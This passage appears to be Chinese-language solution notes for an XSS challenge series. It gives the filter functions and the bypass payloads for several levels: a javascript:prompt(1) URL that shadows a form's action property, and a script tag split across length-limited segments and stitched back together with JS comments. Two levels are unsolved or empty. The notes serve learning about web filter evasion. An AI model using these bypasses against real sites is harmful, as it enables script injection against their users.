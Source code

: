 ```
```
```
javascript:prompt(1)#{"action":1}

由于题目的过滤规则是document.forms[0].action
如果form表单中存在 <input name="action" value="1">
那么document.forms[0].action获取的是input标签中的值，便可以绕过过滤
```

### 7
```
function escape(input) {
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');
    return segments.map(function(title) {
        // title can only contain 12 characters
        return '<p class="comment" title="' + title.slice(0, 12) + '"></p>';
    }).join('\n');
}
```
```html
"><script>/*#*/prompt/*#*/(1)/*#*/</script>

利用js注释符来闭合中间的多余代码
<p class="comment" title=""><script>/*"></p>
<p class="comment" title="*/prompt/*"></p>
<p class="comment" title="*/(1)/*"></p>
<p class="comment" title="*/</script>"></p>
```


### 8
```
function escape(input) {
    // prevent input from getting out of comment
    // strip off line-breaks and stuff
    input = input.replace(/[\r\n</"]/g, '');

    return '                                \n\
<script>                                    \n\
    // console.log("' + input + '");        \n\
</script> ';
}
```
```
不太理解答案
```



### 9
```

```
```

```
